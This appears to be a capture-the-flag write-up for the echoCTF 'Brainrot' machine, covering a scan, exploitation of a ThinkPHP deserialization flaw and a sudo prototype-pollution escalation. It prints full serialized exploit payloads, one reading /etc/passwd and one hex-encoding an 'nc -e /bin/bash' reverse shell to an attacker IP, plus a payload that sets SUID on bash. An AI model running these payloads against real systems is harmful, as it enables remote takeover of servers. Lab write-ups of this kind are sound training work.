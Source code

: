 ```yaml
---
description: >-
  Brainrot echoCTF Machine
title: Brainrot (Intermediate)                # Add title here
date: 2025-01-26 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Intermediate]                     # Change Templates to Writeup
tags: []     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Brainrot.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.14.38
```

### Content

- ThinkPHP Deserialization vulnerability [CVE-2024-44902]
- Protoype Pollution on @bit/loader [CVE-2024-24293]

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
# Nmap 7.94SVN scan initiated Sun Jan 26 23:29:37 2025 as: nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.14.38
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.14.38 ()     Status: Up
Host: 10.0.14.38 ()     Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
```
Services and Versions running:
```bash
Host is up, received user-set (0.17s latency).
Scanned at 2025-01-29 00:56:39 EST for 58s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 74:83:fc:82:0e:02:d9:63:59:80:9f:f9:de:31:17:87 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBO40e2JaSpjhdqxYQ6C2x/SBYzN1gMVUESNpCDIJSStS92QBgqpbKSZpZQaFZ2L/m2jucsTRW+48uSqdL0TsrlY=
|   256 cc:8a:34:47:e0:4e:7b:c7:7b:e0:31:56:db:63:2c:b8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMOL2ddjfYthCMDlkADh4dnHZ4+TwZXYHrMOhcLxySy2
80/tcp open  http    syn-ack ttl 63 (PHP 8.2.24)
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found

|_    Allow:GET, POST, PUT, DELETE
| http-methods: 
|   Supported Methods: GET POST PUT DELETE
|_  Potentially risky methods: PUT DELETE
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```

### Exploitation

Only HTTP port open, with the following number, which seems to be a version:

![](/assets/img/Pasted-image-20250126223838.png)

Then we have enough information to lookup for the name of the technology running on this port, and the only perfect match is ThinkPHP:

![](/assets/img/Pasted-image-20250126223454.png)

While investigating, I found a vulnerability CVE-2024-44902 on ThinkPHP version 8.0.4:

![](/assets/img/Pasted-image-20250126224019.png)

The payload is an image so I have to extract the data from it, the OS command within the payload is `whoami`:
```bash
x=O%3A28%3A%22think%5Croute%5CResourceRegister%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00registered%22%3Bb%3A0%3Bs%3A11%3A%22%00%2A%00resource%22%3BO%3A15%3A%22think%5CDbManager%22%3A2%3A%7Bs%3A11%3A%22%00%2A%00instance%22%3Ba%3A0%3A%7B%7Ds%3A9%3A%22%00%2A%00config%22%3Ba%3A2%3A%7Bs%3A11%3A%22connections%22%3Ba%3A1%3A%7Bs%3A7%3A%22getRule%22%3Ba%3A2%3A%7Bs%3A4%3A%22type%22%3Bs%3A29%3A%22%5Cthink%5Ccache%5Cdriver%5CMemcached%22%3Bs%3A8%3A%22username%22%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A4%3A%7Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A6%3A%22fru1ts%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22cat%20%2Fetc%2Fpasswd%22%3B%7D%7Ds%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A6%3A%22fru1ts%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22fru1ts%22%3B%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7D%7D%7Ds%3A7%3A%22default%22%3Bs%3A7%3A%22getRule%22%3B%7D%7D%7D
```

And then the payload retrieves the information as follows:

![](/assets/img/Pasted-image-20250126230927.png)

Now the interesting part here, is that you need to provide the length of the payload you want to execute (number 6 for whoami), prior to sent the payload:

![](/assets/img/Pasted-image-20250126234525.png)

So in order to get a reverse shell, we get the length of the string and then change it by the 6 instead:

![](/assets/img/Pasted-image-20250126234859.png)

This is the final payload I use:

```bash
x=O%3A28%3A%22think%5Croute%5CResourceRegister%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00registered%22%3Bb%3A0%3Bs%3A11%3A%22%00%2A%00resource%22%3BO%3A15%3A%22think%5CDbManager%22%3A2%3A%7Bs%3A11%3A%22%00%2A%00instance%22%3Ba%3A0%3A%7B%7Ds%3A9%3A%22%00%2A%00config%22%3Ba%3A2%3A%7Bs%3A11%3A%22connections%22%3Ba%3A1%3A%7Bs%3A7%3A%22getRule%22%3Ba%3A2%3A%7Bs%3A4%3A%22type%22%3Bs%3A29%3A%22%5Cthink%5Ccache%5Cdriver%5CMemcached%22%3Bs%3A8%3A%22username%22%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A4%3A%7Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A6%3A%22fru1ts%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A32%3A%22%6e%63%20%2d%65%20%2f%62%69%6e%2f%62%61%73%68%20%31%30%2e%31%30%2e%35%2e%31%32%32%20%31%32%33%34%22%3B%7D%7Ds%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A6%3A%22fru1ts%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22fru1ts%22%3B%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7D%7D%7Ds%3A7%3A%22default%22%3Bs%3A7%3A%22getRule%22%3B%7D%7D%7D
```

### Privilege Escalation
There is a binary that can be executed as Sudo without credentials:
![](/assets/img/Pasted-image-20250126235201.png)

The content of such binary is this:
![](/assets/img/Pasted-image-20250126235216.png)

There is a Prototype Pollution vulnerability on `@bit/loader`:

![](/assets/img/Pasted-image-20250126235402.png)

After several attempts and also a good chatGPT aid, I came with the following payload:
```bash
www-data@brainrot:/$ sudo /usr/local/bin/bitrot '{"__proto__": {"is_admin": true, "properties": {"username": "ebbg", "cmd": "require(\"child_process\").exec(\"chmod +s /bin/bash\")"}}}'

```
That allows us to run `/bin/bash` as root:
```bash
www-data@brainrot:/$ /bin/bash -p
bash-5.2# whoami
root
```

### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables (env command)`
`/root`


### Credentials

No credentials were found on this machine.

### Notes

-  For Prototype Pollution attacks, specially if this are crafted with JSON, it is really important to escape key chars such as doble quote ("), because the payload sometimes is not working while trying to exploit this vulnerability. 

### References

- [Protoype Pollution on @bit/loader](https://security.snyk.io/vuln/SNYK-JS-BITLOADER-6928980)
- [ThinkPHP Deserialization vulnerability](https://github.com/fru1ts/CVE-2024-44902)

